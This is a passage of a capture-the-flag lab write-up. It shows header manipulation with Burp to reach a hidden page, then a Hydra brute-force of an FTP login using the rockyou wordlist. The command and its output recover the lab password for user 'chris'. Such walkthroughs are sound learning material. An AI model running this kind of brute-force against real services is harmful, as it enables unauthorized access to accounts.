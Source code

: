 There is no info regarding FTP username or password, and the same goes with ssh also.

So, our next aim should be getting the info from Website

> 
> 
> 
> Dear agents,
> 
> Use your own codename as user-agent to access the site.
> 
> From,
> Agent R
> 

Changing the user-agent field in the Request using Burp might help.

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/215e97e2-f86c-4b06-9922-4d50db0a780f/a3704156-391a-4454-af31-40e84594c94e/Untitled.png)

[]()

> With User-agent: C, we get redirected to /agent_C_attention.php, where we have a message:
> 
> 
> Attention chris,
> 
> Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
> 
> From,
> Agent R
> 

Since, it is said as weak, that means we can use rockyou.txt to crackit.

### Bruteforcing the ftp login using Hydra

```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l chris -P /usr/share/wordlists/rockyou.txt    ftp://10.10.88.175            
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-28 06:43:20
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.88.175:21/
[STATUS] 209.00 tries/min, 209 tries in 00:01h, 14344190 to do in 1143:53h, 16 active
[21][ftp] host: 10.10.88.175   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-28 06:44:45

```
